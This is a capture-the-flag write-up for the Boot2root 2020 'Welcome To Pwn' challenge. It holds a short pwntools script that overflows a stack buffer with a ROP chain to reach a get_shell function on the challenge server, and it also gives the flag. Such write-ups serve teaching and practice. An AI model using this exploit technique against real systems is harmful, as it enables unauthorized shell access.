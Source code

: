 # Welcome To Pwn

**Category**: Pwn \  
**Points**: 457  
**Solves**: 34  
**Author**: Viper_S

## Description

> Welcome to pwn, here is an easy challenge to get you started.

> nc 35.238.225.156 1001

## Solution

Just overwrite the return address with a ROP Chain of ret gadget and the
get_shell function

```python  
#!/usr/bin/env python3  
import sys  
from pwn import *

elf = ELF('./welcome')  
context.binary = elf  
if len(sys.argv) > 1:  
	p = remote('35.238.225.156',1001)  
else:  
	p = process(elf.path)

get_shell = 0x0401182  
ret = 0x00401140

payload = b"A"*152+p64(ret)+p64(get_shell)  
p.sendlineafter("got",payload)  
p.interactive()  
```

**Flag : b00t2root{W3lc0m3_T0_Pwn_YjAwdDJyb290JzIw}**  

Original writeup (https://github.com/Red-Knights-
CTF/writeups/tree/master/2020/Boot2root_ctf/Welcome%20To%20Pwn).
